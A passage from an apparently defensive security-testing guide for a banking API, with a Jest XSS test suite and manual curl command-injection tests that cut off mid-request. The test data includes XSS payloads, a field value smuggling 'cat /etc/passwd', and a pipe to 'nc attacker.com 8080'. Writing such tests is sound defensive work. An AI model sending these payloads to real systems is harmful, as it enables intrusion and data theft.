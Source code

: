 
#### Automated XSS Testing
```javascript
// xss-protection.test.js
describe('XSS Protection Tests', () => {
  const xssPayloads = [
    '<script>alert("XSS")</script>',
    '<img src=x onerror=alert("XSS")>',
    'javascript:alert("XSS")',
    '<svg onload=alert("XSS")>',
    '\'\';!--"<XSS>=&{()}',
    '<iframe src="javascript:alert(\'XSS\')"></iframe>',
    '<body onload=alert("XSS")>',
    '<input type="image" src="x" onerror=alert("XSS")>'
  ]

  xssPayloads.forEach(payload => {
    test(`Should sanitize XSS payload: ${payload}`, async () => {
      const response = await request(app)
        .post('/api/banking/accounts')
        .set('Authorization', `Bearer ${validToken}`)
        .send({
          accountName: payload,
          accountType: 'checking',
          currency: 'EUR',
          countryCode: 'DE'
        })
      
      if (response.status === 201) {
        // If account created, check that the name is sanitized
        expect(response.body.account.accountName).not.toContain('<script>')
        expect(response.body.account.accountName).not.toContain('javascript:')
      } else {
        // Should be rejected
        expect(response.status).toBe(400)
      }
    })
  })
})
```

### 2.3 Command Injection Testing

#### Manual Command Injection Test
```bash
# Test Case 1: Command injection in file operations
curl -X POST http://localhost:3000/api/banking/generate-iban \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{
    "countryCode": "DE; cat /etc/passwd",
    "bankCode": "TEST"
  }'
# Expected: 400 Bad Request - Invalid input

# Test Case 2: Command injection with pipe
curl -X POST http://localhost:3000/api/banking/transfer \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $TOKEN" \
  -d '{
    "fromAccountId": "valid-uuid",
    "toIban": "DE89370400440532013000",
    "amount": 100,
    "reference": "Payment | nc attacker.com 8080"
```